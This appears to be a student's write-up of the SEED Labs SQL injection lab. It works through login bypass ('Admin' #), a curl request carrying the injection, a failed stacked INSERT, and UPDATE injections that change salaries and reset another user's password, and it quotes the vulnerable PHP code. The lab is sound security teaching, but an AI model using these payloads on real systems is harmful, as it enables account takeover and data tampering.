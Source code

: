 ```yaml
---
title: SQL Injection Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `/etc/hosts` on the attacker:

```
10.0.2.4       www.SeedLabSQLInjection.com
```

# Task 1

Log in MYSQL:

```
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
```

Use such a SQL query:

```sql
select * from credential where Name = 'Alice';
```

![](./alice_profile.png)

# Task 2

## Task 2.1

- **USERNAME**: `"Admin' #"`
- **PASSWORD**: `"xyz"` whatever you like, it doesn't matter.

It will result in a SQL query as:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='xyz'
```

Then statements after `#` will be regarded as comments. So we can log in as `Admin`.

![](./full_records.png)

## Task 2.2

```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```

It will return a bunch of `html` code. when exporting outputs to file by `> temp.html` and open it, it looks like:

![](./html_look.png)

It contains all information we need but lacks the layout controls by a specified `CSS` file.

## Task 2.3

We need to inject such a statement to append a row to current database:

```sql
INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514');
```

So construct:

- **USERNAME**: `"a' OR 1=1; INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514') #"`
- **PASSWORD**: `""` (remain blank)

It fails and alerts with a syntax error:

![](./fail.png)

Because in PHP's `mysqli` extension, which invokes [`mysqli::query`](https://www.php.net/manual/en/mysqli.query.php) API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

# Task 3

It's hard to find the navigation buttons on this website (www.SeedLabSQLInjection.com).

In order to edit the profile, please log in and then jump to the link address: http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by hand.

# Task 3.1

Log in with Alice's username and password, enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Modify **Phone Number** as `', Salary=1000000` and save.

## Task 3.2

Log in with username `Boby' #` and arbitrary password, open his profile edit page.

Fill in with:

**Phone Number**: `', Salary=0`

And keep other properties unchanged. Submit the modification.

Now, you can see:

![](./boby_salary.png)

### Log-in as Alice

Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.

We should change the **Phone Number** as

```
', Salary=1 where name='Boby' #
```

## Task 3.3

Of course, the simplest approach is to log-in as Boby like [Task 3.2](#task-32) and change the password.

If we must do all things and keep log-in with Alice's own account. We might face such an issue:

According to code below in `unsafe_edit_backend.php`, if **Password** is to be updated, the session's `pwd` will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.

```php
$conn = getDB();
// Don't do this, this is not safe against SQL injection attack
$sql="";
if($input_pwd!=''){
// In case password field is not empty.
$hashed_ = sha1($input_pwd);
//Update the password stored in the session.
$_SESSION['pwd']=$hashed_pwd;
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
}else{
// if passowrd field is empty.
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
}
$conn->query($sql);
$conn->close();
header("Location: unsafe_home.php");
exit();
```

We should do all things in **Phone Number** field.

Assume we want to change Boby's password as `soudayo`. First, we should get SHA1 value of our new password via some [online tool](http://www.sha1-online.com/) as

```
c0b656d5e415ca1a8e098a408f913ec229e120b6
```

Then construct **Phone Number** as:

```
', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
```

and save. Now, the change works. You can log in with username `Boby` and password `soudayo`.

Verify:

![](./soudayo.png)